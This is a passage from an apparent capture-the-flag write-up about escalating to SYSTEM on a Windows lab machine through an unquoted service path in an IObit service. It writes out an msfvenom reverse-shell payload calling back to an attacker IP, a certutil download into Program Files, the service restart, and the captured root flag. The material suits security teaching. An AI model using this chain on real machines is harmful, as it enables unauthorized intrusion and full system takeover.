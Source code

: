 We see that there is an unquotes path that we can exploit; therefore, we must create a reverse shell named Advanced.exe in the `IObit` directory.

```sh
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.18.57.77 LPORT=4445 -f exe -o Advanced.exe
```
```
certutil -urlcache -split -f http://LOCAL_IP/Advanced.exe "C:\Program Files (x86)\IObit"
```

Finally, run a `nc` listener on Port 4445, then stop/start the service AdvancedSystemCareService9.

```
sc stop AdvancedSystemCareService9
```

```
sc start AdvancedSystemCareService9
```

Now we have system privileges.

```
C:\Windows\system32>
```

Navigate to the adiministrator's desktop and read the `root.txt` file.

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af5f314f57607c00fd09803a587db80
```


